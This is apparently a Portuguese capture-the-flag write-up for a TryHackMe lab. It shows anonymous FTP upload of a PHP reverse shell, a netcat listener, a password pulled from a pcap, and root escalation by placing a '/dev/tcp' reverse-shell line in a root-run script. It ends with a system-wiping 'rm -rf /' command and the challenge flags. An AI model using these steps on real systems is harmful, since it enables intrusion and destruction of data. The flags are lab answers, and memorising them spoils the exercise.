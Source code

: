 CTF STARTIUP 

Ao gerar o ip dei um nmap para ver as portas abertas

    nmap -A -sV IP

Encontrava-se 3 portas(ftp 21, tcp 22, tcp 80)

sendo o ftp anonymous era so entrar...

    ftp ip
    username: anonymous
    pass: no pass

3 arquivos

    ftp
    notice.txt
    important.jpg

Ao ler o notice.txt encontrava-se um possivel username Maya

Ao baixar a imagem e abri-la tinha um meme do among us...

    get important.jpg

Ao dar um gobuster para encontravar diretorios

    gobuster dir -u IP -w directory-list-2.3-small.txt -x php,html,txt

encontrava o /files que resultava no mesmo arquivo do ftp...

assim era so pegar um webshell, usei o do pentestmokey 

    https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php

Criei um arquivo no kali chamado shellphp.php 

    nano shellphp.php

Modifiquei o ip e a porta que e solicitado no codigo

e coloquei na pasta ftp

    put shellphp.php

Assim eu fiz o netcat

    nc -nvlp 1333

Ao abrir o IP/files/ftp cliquei para rodar esse codigo assim conseguindo acesso ao www-data

Conseguindo acesso a 1 flag do desafio "recipe.txt"

    cat recipe.txt

    Someone asked what our main ingredient to our spice soup is today. I figured I can't keep it a secret forever and told him it was love.
    
Procurando pelo sistema encontrei uma pasta chamado incidents ao dar um cd nessa pasta tinha um arquivo chamado

    suspicious.pcapng

Ao baixa-lo

    get suspicious.pcapng /var/www/html/files/ftp

Abrindo esse arquivo automaticamente abria o Wireshark um aplicativo de analise de rede

Olhando no Wireshark notei que ele mostrava alguns diretorios root, selecionei a opcao follow tcp e la dentro tenha uma requisicao da senha do www-data

    senha www-data c4ntg3t3n0ughsp1c3

Sendo essa a senha do www-data e como dentro do /home tinha um usuario chamado lennie era so fazer a conexao ssh com o user lennie

    ssh lennie@IP
    pass: c4ntg3t3n0ughsp1c3

Assim sendo possivel acessar a 2 flag "user.txt"

    cat user.txt
    THM{03ce3d619b80ccbfb3b7fc81e46c0e79}

Ainda no usuario lennie tinha uma pasta chamada scripts ao abrir tinha um aquivo .sh

    planner.sh

O "planner.sh" executava um arquivo root dentro dele e tinha sua rota

    /etc/print.sh

Esse arquivo executava como root, sendo assim era so pegar uma reverse shell para conseguir ter acesso 

    https://www.revshells.com/

assim criando uma shell sh e modificando o arquivo "print.sh" com esse script

Script

    sh -i >& /dev/tcp/IPTRYHACKME/1333 0>&1

NetCat

    nc -nvlp 1333

Assim tendo acesso a pasta root que tinha o arquivo "root.txt"

    cat root.txt
    THM{f963aaa6a430f210222158ae15c3d76d}

Assim finalizando o desafio..

    touch dannydev19.txt
    rm -rfv / --no-preserve-root

FLAGS

    Flag 1: love
    Flag 2: THM{03ce3d619b80ccbfb3b7fc81e46c0e79}
    Flag 3: THM{f963aaa6a430f210222158ae15c3d76d}

![image](https://user-images.githubusercontent.com/86691253/183748747-f4abcbe4-48b4-4b4f-b198-b87965cb371e.png)
